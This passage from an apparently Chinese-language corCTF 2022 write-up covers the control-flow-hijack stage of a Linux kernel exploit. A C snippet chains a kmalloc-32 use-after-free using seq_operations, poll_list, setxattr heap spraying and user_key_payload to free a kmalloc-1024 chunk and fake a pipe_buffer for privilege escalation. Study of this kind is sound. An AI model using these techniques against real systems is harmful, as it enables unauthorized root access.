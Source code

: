 ![5-leak-heap](/images/posts/corCTF-2022/5-leak-heap.png)

## 5. 漏洞利用 - 劫持控制流

**目标**：现在我们利用 off-by-one 泄露了内核基址和 kmalloc-1024 地址，现在我们需要释放这个 kmalloc-1024 堆块。

**方法**：再次构造 kmalloc-32 的UAF，利用 `setxattr()` 堆喷篡改某个 kmalloc-32 中的 `poll_list->next` 指向这个 kmalloc-1024 堆块的地址（提前堆喷 `pipe_buffer` 对象来占据这个kmalloc-1024 堆块），构造任意释放，释放该 kmalloc-1024 块。然后堆喷 `user_key_payload` 对象来伪造 `pipe_buffer` 来劫持控制流并提权。

```c
    [...]

    for (int i = 2048; i < 2048 + 128; i++)
        free_seq_ops(i); 		// [1] 释放所有 kmalloc-32 seq_operations (图3A/3B中黄色的块)

    for (int i = 0; i < 192; i++)
        create_poll_thread(i, 24, 3000, true); 	 // [2] 用 poll_list 替换刚才释放的 seq_operations (图4A中绿色块), 目前为止，刚才覆写 user_key_payload 的 seq_operations 也被 poll_list 替换

    free_key(corrupted_key); 	// [3] 释放所有 user_key_payload, 包括被 seq_operations 覆写的块, 本质上是释放了某个 poll_list, 构造了UAF
    sleep(1); // GC key

    *(uint64_t *)&data[0] = target_object - 0x18;// [4] 伪造 poll_list->next = target object-0x18

    for (int i = 0; i < MAX_KEYS; i++)
    {
        setxattr("/home/user/.bashrc", "user.x", data, 32, XATTR_CREATE);
        keys[i] = alloc_key(n_keys++, key, 32);  // [5] 先通过 setxattr() 堆喷伪造 poll_list->next, 然后再分配 user_key_payload 占据 setxattr() 的缓冲区，避免被其他对象占用后又把前8字节改掉了
    }

    [...]
```
